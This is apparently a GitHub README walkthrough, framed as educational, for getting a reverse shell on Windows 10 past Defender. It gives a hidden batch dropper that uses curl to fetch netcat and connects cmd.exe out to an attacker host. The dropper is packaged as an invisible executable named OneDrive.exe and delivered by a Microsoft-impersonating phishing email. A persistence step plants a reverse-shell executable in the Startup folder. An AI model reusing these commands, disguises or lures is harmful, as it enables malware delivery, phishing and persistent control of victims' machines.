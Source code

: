 # Bypassing-Windows-Defender-for-fun
Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

# Credits:
-Senouy

# Introduction:
In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in.
Let’s take a look at the script we are using.
`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :

`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1188ce4d-34c9-4d61-91d8-227485c9936f)

We then use bat-to-exe-converter to convert/build our batch file to an exetuable file.

#things to change:

-import an icon to be set as the final exe’s icon.

-change exe format to 64-bit | Windows (invisible) ///This makes the exe run without triggereing the cmd.exe prompt to show.

Note: You can check the Request admin privileges box to make the final exe request admin privs to run.

The result : `OneDrive.exe`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/b7ad88d4-6deb-4172-ba11-3c0bdd222b42)
![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/0b346d79-4c03-43c2-89e7-9b26a173581a)

I’ve crafted a fake email using some sentences that official Microsoft teams use in their texts and used a fake Microsoft account to make it look more authentic. You can find the email here https://pastebin.com/XFrn4Z4w

Now, onto a Windows machine, the first test subject is Windows 10 version 2004. This version of Windows 10 was released back on May 27, 2020, so it's not that old.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/ada32d5b-c710-49ea-8af3-7aa7ee082902)

We now start our listner on the 9999 port and proceed to run the OneDrive.xe on the Windows machine.

`$nc –lnvp 9999`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1a8c2498-7425-4b33-98c6-13d4da3b55cc)

After the victim has ran our malicious file, we get a reverse shell. Meaning we can control his computer and all sorts of thing including removing/creating folders and files acccessing every path we want. But there are some limitations. As you can see we are logged in as the user so that means we only have the user privileges and we need to gain Administrator rights in order to have all the rights and permissions available on the system.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/c7ed7d38-e6f4-47af-bc33-32df0b67dd2d)

# Privilege Escalation and Persistence :

On this phase I’ve prepared a script that will help us gain a reverse shell with admin privileges and in any case we lose access to the machine or our shell breaks. No worries we’ll get another one once the victim machine has restarted.
The script is as follows :

`@echo off
C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

-I used the bat-to-exe-converter to convert/build this batch script to an exetuable file and named it `startup.exe`.

The first step is to transfer our exe to the victim machine. So to do that I started a simple http server where my startup.exe is located. To do that use the following command:

`$python3 –m http.server 80`

On the victim machine change directory to `C:\Users\Public\Downloads\` . Then download the script and move it to the `startup applications folder` using these commands :

`$curl –o startup.exe http://10.0.5.29/startup3.exe`

`$copy "C:\Users\Public\Downloads\startup.exe" "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1d65e504-d7f3-4b5c-b86a-c80e91b90035)

Finally you can send a command to reboot the machine ‘’shutdown –r –t 0’’ or wait for the victim user to reboot it and you’ll get a shell again but this time you’ll have admin rights.

TIP: Don’t forget to start your listener again.

# Conclusion :

This attack has succeeded in both Windows 10 version 2004 and the latet Windows 10 2023 at the time doing this experiment.

I hope you all enjoyed this walkthrough and had fun discovering what can casual tools we use and some scripting knowledge can do.


